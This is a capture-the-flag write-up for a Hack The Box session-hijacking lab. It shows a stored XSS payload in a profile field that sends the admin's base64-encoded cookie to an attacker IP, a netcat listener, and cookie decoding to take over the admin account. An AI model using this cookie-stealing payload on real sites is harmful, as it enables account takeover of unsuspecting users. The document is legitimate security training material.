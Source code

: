 # Skill Assessment

#### You are currently participating in a bug bounty program.

* The only URL in scope is `http://minilab.htb.net`
* Attacking end-users through client-side attacks is in scope for this particular bug bounty program.
* Test account credentials:
  * Email: heavycat106
  * Password: rocknrol
* Through dirbusting, you identified the following endpoint `http://minilab.htb.net/submit-solution`

Find a way to hijack an admin's session. Once you do that, answer the two questions below.

#### Read the flag residing in the admin's public profile. Answer format: \[string]

The first thing that we should do to try to hijack a session from the web application is understand what is keeping the user with the session established. After looking around a bit I found that the **Cookie: auth-sess** is the key component.&#x20;

So our first task ask us to read the file from the admin's public profile. This mislead me a bit, but fortunately the hint actually tell that we have to make the admin's profile public in order to read the flag.

Before moving to the solution let's first ask these two questions:

* What is the admin's profile?
* How do I hijack his session?

We don't have any information regarding this questions. However, the statement above give us a clue that we have to explore the `http://minilab.htb.net/submit-solution` endpoint.

If we paste the URL on the browser, we should receive the following output:

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

From the output above we can that a url is missing. Let's add it and append the domain to it:

`http://minilab.htb.net/submit-solution?url=http://minilab.htb.net/submit-solution`

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now the output is different. But what does it mean?&#x20;

This endpoint simulates the admin interaction. Basically this is where we "deliver" the payload to the admin.

Since that we make this clear, now let's explore the application and how we can deliver the payload.

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

When we logged in with the provided credentials this is are the default values. The vulnerable parameter that we are going to exploit is the **Country** field.&#x20;

To edit it, simply delete the presented values and replace it with `<script>alert(document.domain)</script>`

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Then click it on **Share**.

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

And the payload got executed! Notice the highlighted URL, this is what we have to deliver to the admin.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

By pressing **Ctrl + Shit + I** we can inspect the Cookie value. We can see that there is indeedn a **auth-session**, and the **HttpOnly** is set to false.

Now we have to came with a payload that retrieves the Cookie from the admin's connection attempt:

{% code overflow="wrap" %}
```
"><img src="x" onerror="document.write(`<img src='http://OUR_VPN_IP:PORT?cookie=${btoa(document.cookie)}'>`)">
```
{% endcode %}

Replace the IP, paste the the payload on the **Country** field and save.

In order to capture the Request, we have to setup a listener on our machine:

```
nc -lvpn 8000
```

Now, on a private tab, or different browser paste the following URL:

{% code overflow="wrap" %}
```
http://minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

And we got the admin's cookie!

Notice that in our previous payload we used the function btoa that encodes a string to base64.

Now we have to reverse the process:

```
echo "ENCODED COOKIE" | base64 --decode
```

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>



Paste the decoded Cookie on the Cookie value and refresh the page.

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

And we got Admin access! Now we have to make the admin's profile public. Click on **Change Visibility**.

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Then click on **Share**.

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

And we got the first flag!

#### Go through the PCAP file residing in the admin's public profile and identify the flag. Answer format: FLAG{string}

For the second part of this lab, we have to download the pcap file on the admins profile

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Click on Flag2 do download the pcap file and then open it with wireshark

Then we have to look for a part of the string. Click on **Edit** > **Find Packet** > Select **Packet bytes** and **String**.

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Then just click on **Find** and we got the second flag!
